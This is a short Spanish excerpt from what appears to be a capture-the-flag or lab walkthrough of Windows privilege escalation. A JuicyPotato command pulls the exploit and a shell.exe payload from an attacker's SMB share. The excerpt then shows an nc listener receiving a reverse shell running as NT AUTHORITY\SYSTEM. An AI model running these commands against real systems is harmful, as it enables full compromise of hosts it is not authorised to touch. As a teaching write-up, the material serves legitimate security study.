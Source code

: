 Ejecutamos de nuevo incluyendo un CLSID valido y…:

```bash
c:\windows\system32\inetsrv>\\10.0.2.5\kali\JuicyPotato.exe -l 443 -t * -p \\10.0.2.5\kali\shell.exe -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
\\10.0.2.5\kali\JuicyPotato.exe -l 443 -t * -p \\10.0.2.5\kali\shell.exe -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"\\10.0.2.5\kali\JuicyPotato.exe -l 443 -t * -p \\10.0.2.5\kali\shell.exe -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 443
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\windows\system32\inetsrv>
```

Obtenemos una shell como `nt authority\system`:

```bash
└─$ nc -nlvp 8889
listening on [any] 8889 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.140] 49173
Microsoft Windows [Versi?n 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Windows\system32>whoami
whoami
nt authority\system
```
